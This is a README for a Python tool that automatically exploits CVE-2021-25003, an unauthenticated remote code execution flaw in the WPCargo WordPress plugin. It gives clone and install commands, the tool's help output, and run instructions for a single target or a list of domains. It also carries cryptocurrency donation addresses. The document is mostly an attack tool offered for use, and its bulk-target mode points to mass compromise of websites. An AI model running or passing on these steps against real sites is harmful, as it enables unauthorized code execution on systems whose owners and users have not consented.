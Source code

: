 # CVE-2021-25003
[![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

```
Title: WPCargo < 6.9.0 - Unauthenticated RCE
Author: Krzysztof Zając [ https://kazet.cc/ ]
CVE: CVE-2021-25003
```

### Installation
```
git clone https://github.com/biulove0x/CVE-2021-25003.git
cd CVE-2021-25003/
python3 -m pip install -r requirements.txt
```

### How to run autoexploit
```
$ python3 WpCargo.py --help
############################################
# @author : biulove0x                      #
# @name   : WP Plugins WPCargo Exploiter   #
# @cve    : CVE-2021-25003                 #
############################################

usage: exploit.py [-h] [-t example.com] [-l target.txt]

CVE-2021-25003 [ WPCargo < 6.9.0 - Unauthenticated RCE ]

optional arguments:
  -h, --help      show this help message and exit
  -t example.com  Single target
  -l target.txt   Multiple target
```

#### Single target
```
$ python3 WPCargo.py -t http://example.com/
```

#### Multiple target
```
$ cat domains.txt
http://example.com/
https://examples.com/

$ python3 WPCargo.py -l target.txt
```

### References :

* https://wpscan.com/vulnerability/5c21ad35-b2fb-4a51-858f-8ffff685de4a

### Donate :
BTC : bc1qst09sxcnq97a4wgsqvpkg4fxyjczvs3xe7278h

BNB : bnb1jhp2hv9utr8u97387p35fmftgr8wpjp39altz0

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/biulove0x)

